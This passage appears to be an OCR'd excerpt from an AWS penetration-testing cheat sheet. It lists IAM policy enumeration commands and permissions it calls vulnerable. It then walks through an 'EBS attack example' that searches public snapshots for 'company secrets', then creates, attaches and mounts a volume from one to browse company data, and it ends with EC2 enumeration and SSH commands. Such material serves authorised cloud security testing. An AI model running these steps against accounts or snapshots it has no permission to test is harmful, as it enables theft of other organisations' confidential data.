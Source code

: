 ```bash
aws iam list-attached-user-policies --user-name {}
aws iam get-policy-version --policy-arn provide_policy_arn --version-id $(aws iam get-policy --policy-arn provide_policy_arn --query 'Policy.DefaultVersionId' --output text)
aws iam list-user-policies --user-name {}
aws iam get-user-policy --policy-name policy_name_from_above_command --user-name {} | python -m json.tool
# Vulnerables policies:
iam:CreatUser
iam:CreateLoginProfile
iam:UpdateProfile
iam:AddUserToGroup
```

## EBS

### Find secrets in public EBS

```
# Dufflebag https://github.com/bishopfox/dufflebag
```

### **EBS attack example**

```
# Discover EBS Snapshot and mount it to navigate
- Obtaning public snapshot name
aws ec2 describe-snapshots --region us-east-1 --restorable-by-user-ids all | grep -C 10 "company secrets"
- Obtaining zone and instance
aws ec2 describe-instances --filters Name=tag:Name,Values=attacker-machine
- Create a new volume of it
aws ec2 create-volume --snapshot-id snap-03616657ede4b9862 --availability-zone <ZONE-HERE>
- Attach to an EC2 instance
aws ec2 attach-volume --device /dev/sdh --instance-id <INSTANCE-ID> --volume-id <VOLUME-ID>
    - It takes some time, to see the status:
    aws ec2 describe-volumes --filters Name=volume-id,Values=<VOLUME-ID>
- Once is mounted in EC2 instance, check it, mount it and access it:
sudo lsblk
sudo mount /dev/xvdh1 /mnt
cd /mnt/home/user/companydata
```

```
# WeirdAAL https://github.com/carnal0wnage/weirdAAL
```

## **EC2**

### **EC2 basic commands**

```
# Like traditional host
- Port enumeration
- Attack interesting services like ssh or rdp

aws ec2 describe-instances
aws ssm describe-instance-information
aws ec2 describe-snapshots
aws ec2 describe-security-groups --group-ids <VPC Security Group ID> --region <region>
aws ec2 create-volume --snapshot-id snap-123123123
aws ec2 describe-snapshots --owner-ids {user-id}

# SSH into created instance:
ssh -i ".ssh/key.pem" <user>@<instance-ip>
```
